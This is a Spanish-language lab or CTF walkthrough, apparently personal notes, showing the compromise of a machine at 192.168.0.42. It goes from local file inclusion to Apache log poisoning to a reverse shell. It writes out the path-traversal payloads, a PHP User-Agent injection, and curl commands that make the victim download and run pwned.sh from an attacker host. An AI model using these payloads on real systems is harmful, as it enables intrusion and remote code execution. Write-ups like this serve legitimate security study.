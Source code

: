 Hacemos un escaneo con nmap:
![[Pasted image 20230826174126.png]]
Y esta es la página web:
![[Pasted image 20230826174146.png]]
Si hacemos clic en sign up, vemos que se nos cambia la URL donde se llama a un fichero llamado default.php, lo que nos da una pista de un posible local file inclusion:
![[Pasted image 20230826174712.png]]
Hay una herramienta para automatizar ataques de local file inclusion en el siguiente repositorio:
```bash
https://github.com/kvlx-alt/LFI-Scanner
```
![[Pasted image 20230826174740.png]]
La bajamos y probamos:
![[Pasted image 20230826174910.png]]
Y nos pide la url, donde la pegaremos justo en el momento antes que cargue el default.php:
![[Pasted image 20230826174957.png]]
Y vemos que nos pide un diccionario para hacer ataques de fuerza bruta, por lo que nos bajamos uno de github:
```bash
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
```
![[Pasted image 20230826175150.png]]
![[Pasted image 20230826175235.png]]
Una vez bajado, lo cargamos en la herramienta y nos encuentra el path vulnerable:
![[Pasted image 20230826175312.png]]
```bash
http://192.168.0.42/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
```
Lo pegamos en la web y vemos que funciona:
![[Pasted image 20230826175334.png]]
Lo interesante es que una vez pudiendo ver archivos del sistema, podemos ver también el archivo access.log de apache, por lo que es posible que estemos ante un log poisonning:
```bash
http://192.168.0.42/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//var/log/apache2/access.log
```
![[Pasted image 20230826175526.png]]
Ejecutamos un comando de forma remota con curl:
```bash
curl -s -X GET 'http://192.168.0.42/' -H "User-Agent: <?php system('whoami'); ?>"
```
Y vemos que se ejecutó correctamente en la máquina víctima:
![[Pasted image 20230828115822.png]]
Por lo que ahora ingresamos código para enviarnos una reverse shell, de tal forma que creamos el script con el payload:
![[Pasted image 20230828120026.png]]
Nos montamos un servidor http con python compartiendo este script:
![[Pasted image 20230828120059.png]]
Y ejecutamos los siguientes comandos:
```python
curl -s -X GET 'http://192.168.0.42' -H "User-Agent: <?php system('wget http://10.8.100.91/pwned.sh'); ?>"

curl -s -X GET 'http://192.168.0.42' -H "User-Agent: <?php system('chmod 777 pwned.sh'); ?>"

curl -s -X GET 'http://192.168.0.42' -H "User-Agent: <?php system('bash pwned.sh'); ?>"
```
Y recibimos la reverse shell:
![[Pasted image 20230828120606.png]]
Una vez dentro, vemos que tenemos 3 carpetas pero no tenemos permiso para acceder a ninguna de ellas:
